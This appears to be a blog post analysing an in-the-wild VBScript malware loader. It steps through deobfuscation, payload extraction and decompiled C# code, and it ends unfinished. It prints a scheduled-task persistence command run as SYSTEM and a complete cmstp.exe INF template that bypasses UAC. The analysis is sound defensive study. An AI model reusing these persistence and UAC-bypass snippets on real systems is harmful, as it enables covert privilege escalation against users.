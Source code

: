 At the time of writing it is around a day that malicious script appeared in wild. To practice and improve myself I chose this malware.

For now in virustotal, it can be seen that malware is only detected by 9 AVs and the server for downloading second payload (*png* file) is still available to be downloaded. 

Starting with analysis, The file's size is really big but only reason for it was repeat of same 10 lines. 
![1|500](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/1.png?raw=true)

Using ASCII table we can replace all occurrences of these variables with their Char values.

At first it looked like it is only repeating same 10 line for increasing file size (to look legit), but one more reason was probably trying to hide obfuscated code. (Maybe not but only good explanation is this)
![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/2.png?raw=true)

At first it might not make sense but you can obviously see same pattern repeat in obfuscated code:
`"⏳लბ⣿༑₫ᨑԿ🖲ᅫҌ⊣ሒȪ⟚"`

and payload use `categorised(ByVal inputText)` function to deobfuscate it. (By removing repeating line)
![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/3.png?raw=true)

In this situation manually writing deobfuscater  would be possible to but, it is waste of time. I just changed `dozens = categorised(dozens)` with `WScript.Echo categorised(dozens)` (Don't forget to only copy necessary parts in new file to avoid running something dangerous). I ran the code using **cscript.exe** to see output in my **cmd**.

![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/4.png?raw=true)

Now to deobfuscate, we need to replace '#' with 'A' and convert base64 to string. Once again instead of using cyberchef I just run powershell code with removing `Invoke-Expression` and beautify it a little bit. This is the code that downloads second file. (png)

![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/5.png?raw=true)
A day later, the malicious file was deleted from server but I installed it before, so I can continue my analysis. I will also upload file to **malware bazaar** for anyone that needs it to analyse on his own.

This image file has Data starting with '<<BASE64_START>>' and ends with '<<BASE64_END>>' after decoded it is uploaded to memory but I modified code and used function:
```ps1
[System.IO.File]::WriteAllBytes("C:\dnlib_image.dll", $cleared)
```

to save it in a file and when we load this dll to dnspy-x86, it loads it as `Microsoft.Win32.TaskScheduler, Version=1.1.0.0` and dnlib inside, which is necessary part of us:
![1|800](https://raw.githubusercontent.com/basicacc/basicacc.github.io/refs/heads/main/My_analysis/Malware_4/6.png)

You can check out [Robson Felix's VMDetector](https://github.com/robsonfelix/VMDetector)to understand how it works. I modified qemu strings in my system so I have 0 "qemu" string in my system which helps me avoid detection. this script is really basic as it checks for only "qemu" (easy to stay undetected). 
Note: Even though this malware has function to check detect vms, it doesn't use it. (if you remember the arguments given when VAI is called, they are necessary part of this function)

In next line we can see the malicious code calling specific function that is interesting for us, **VAI**.

![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/7.png?raw=true)


some of the variable names are written in Spanish, which might be a tip for malware writer being Spanish. (Of course, it is not a guarantee) 

I have written custom code in C# to be able to manually debug this dll. 

The functions function didn't use: persistence, startuptask, startupreg (even though it could). (To make it clear these are not function names, these are variables)

Moving on, startup_onstart is actually used, let's understand what it does.
Before understanding the function, I retrivied Hashtable values that are used through dll and saved all of them to single file to make analysis easier.

This is the part we have to analyze now:
```csharp
if (flag12)
{
	bool flag13 = !File.Exists(Path.Combine(caminho, nomedoarquivo + \uE11C.\uE000(12567) + extençao));
	bool flag14 = flag13;
	if (flag14)
	{
		Process.Start(new ProcessStartInfo
		{
			WindowStyle = ProcessWindowStyle.Hidden,
			FileName = \uE11C.\uE000(12607), // "cmd.exe"
			Arguments = string.Concat(new string[]
			{
				// "/C copy *."
				\uE11C.\uE000(12599),
				// "vbs"
				extençao,
				// " \""
				\uE11C.\uE000(12770),
				//  1. @"C:\ProgramData" 2. "millipascals"
				Path.Combine(caminho, nomedoarquivo), 
				// "."
				\uE11C.\uE000(12567),
				// "vbs"
				extençao,
				// "\""
				\uE11C.\uE000(12282)
			})
		}).WaitForExit();
	}
	Loader.ExecutarMetodoVAI(taskname, caminho, nomedoarquivo, extençao);
}
```

Basically checks if file exists, if not, starts new process: 
`cmd.exe /C copy *.vbs "C:\ProgramData\millipascals.vbs" 
copies the vbs file to its new location.

**ExecutarMetodoVAI** is called with arguments: `"blinkered" @"C:\ProgramData"	"millipascals" "vbs"`

at first line, function searches for specific string in resources:
`string text = Array.Find<string>(Assembly.GetExecutingAssembly().GetManifestResourceNames(), new Predicate<string>(Loader.<>c.<>9.\uE000));`

When using dnspy, it hides compiler generated types and modules by default which you need to enable.

The `(Loader.<>c.<>9.\uE000)` sets condition **true** if "string" ends with "UAC.dll"
and in next lines, first stream is loaded into an array and array was loaded to caller program (powershell):
```C#
byte[] array;
using (Stream manifestResourceStream = Assembly.GetExecutingAssembly().GetManifestResourceStream(text))
{
	using (MemoryStream memoryStream = new MemoryStream())
	{
		manifestResourceStream.CopyTo(memoryStream);
		array = memoryStream.ToArray();
	}
}
Assembly assembly = Assembly.Load(array);
```


and calls "Main" method in UAC.dll (type:UAC.Program).

![1|800](https://raw.githubusercontent.com/basicacc/basicacc.github.io/refs/heads/main/My_analysis/Malware_4/8.png)

Which I will use new custom script to run it and debug manually.

First thing "UAC.dll" does is create a new string:
`@"cmd.exe /c powershell -Command ""schtasks /Create /TN 'blinkered' /TR 'wscript.exe C:\ProgramData\millipascals.vbs' /SC ONSTART /RL HIGHEST /RU SYSTEM /F"""` with given parameters.

* Generates new inf file under temporary path.
* Changes "REPLACE_COMMAND_FILE" in `private static string INF_TEMPLATE = "[version]\r\nSignature=$chicago$\r\nAdvancedINF=2.5\r\n\r\n[DefaultInstall]\r\nCustomDestination=CustInstDestSectionAllUsers\r\nRunPreSetupCommands=RunPreSetupCommandsSection\r\n\r\n[RunPreSetupCommandsSection]\r\nREPLACE_COMMAND_LINE\r\ntaskkill /IM cmstp.exe /F\r\n\r\n[CustInstDestSectionAllUsers]\r\n49000,49001=AllUSer_LDIDSection, 7\r\n\r\n[AllUSer_LDIDSection]\r\n\"HKLM\", \"SOFTWARE\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\App Paths\\\\CMMGR32.EXE\", \"ProfileInstallPath\", \"%UnexpectedError%\", \"\"\r\n\r\n[Strings]\r\nServiceName=\"CorpVPN\"\r\nShortSvcName=\"CorpVPN\"";` with the command created before.
* writes this to inf file.

Part 2:
* Checks if file: "C:\Windows\system32\cmstp.exe" exists.
* if it does, Start new process: `C:\Windows\system32\cmstp.exe /au "<inf_file_path>"`
* Basically creates new process to run at every startup for persistence purposes.
* Why use cmstp.exe? To avoid some detections.

That's all with UAC.dll, now we have to go back to `dnlib.IO.Home.VAI`.

To sum up, in next steps malicious dll function launches MsBuild.exe and modifies its code and resumes thread.

(will continue)